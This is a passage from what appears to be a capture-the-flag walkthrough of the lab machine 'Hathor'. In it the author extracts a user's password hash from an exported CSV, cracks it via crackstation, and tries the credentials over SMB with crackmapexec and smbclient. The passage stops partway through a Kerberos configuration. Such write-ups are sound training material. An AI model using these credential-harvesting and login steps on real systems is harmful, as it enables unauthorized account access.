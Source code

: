 
Looking at the most recent one, it’s got a hash for the BeatriceMill user:

    
    
    c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-09112022-160559.csv
    type exported_windcorp-09112022-160559.csv
    Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
    active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'
    

### Crack Hash

Given that this hash is in common wordlists, it makes sense that I’ll find it
on [crackstation](https://crackstation.net/):

![image-20221109131039749](https://0xdfimages.gitlab.io/img/image-20221109131039749.png)

”!!!!ilovegood17” is the password.

### Access SMB

#### NTLM Fails

Trying these creds with `crackmapexec` and `smbclient` both fail with the same
error message:

    
    
    oxdf@hacky$ crackmapexec smb hathor.windcorp.htb -u beatricemill -p '!!!!ilovegood17'
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb [*]  x64 (name:hathor.windcorp.htb) (domain:hathor.windcorp.htb) (signing:True) (SMBv1:False)
    SMB         hathor.windcorp.htb 445    hathor.windcorp.htb [-] hathor.windcorp.htb\beatricemill:!!!!ilovegood17 STATUS_NOT_SUPPORTED 
    
    oxdf@hacky$ smbclient -L //10.10.11.147 -U windcorp.htb\\BeatriceMill                            
    Enter WINDCORP.HTB\BeatriceMill's password:
    session setup failed: NT_STATUS_NOT_SUPPORTED 
    

This is the error message that comes back when NTLM authentication is
disabled.

#### Kerberos Configuration

I’ll update my `/etc/krb5.conf` file with this domain:

    
    
    [libdefaults]   
        	default_realm = WINDCORP.HTB
            fcc-mit-ticketflags = true
    
    [realms]
            WINDCORP.HTB = {
                    kdc = HATHOR.WINDCORP.HTB
                    admin_server = HATHOR.WINDCORP.HTB
            }
    